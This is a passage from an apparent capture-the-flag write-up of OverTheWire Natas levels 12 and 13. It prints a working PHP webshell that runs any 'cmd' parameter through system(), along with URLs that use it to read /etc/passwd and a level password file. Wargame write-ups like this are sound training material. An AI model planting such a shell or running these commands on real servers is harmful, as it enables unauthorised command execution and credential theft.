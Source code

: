 I confirmed the vulnerability does allow me to load a PHP file. Since a link to the file is returned, it&#8217;s almost certain to allow me to use a webshell.

Here is the webshell I used:

{% highlight php %}

<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

{% endhighlight %}

And this command gave the password: `http://natas12.natas.labs.overthewire.org/upload/2hqri8g7u3.php?cmd=cat+/etc/natas_webpass/natas13`

&nbsp;

### LEVEL 13

<img class="alignnone size-full wp-image-235" src="/assets/img/2019/09/2019-09-13_10h09_37.png" /> 

Uploading the same PHP file as last time gives an error:

<img class="alignnone size-full wp-image-236" src="/assets/img/2019/09/2019-09-13_10h10_15.png" /> 
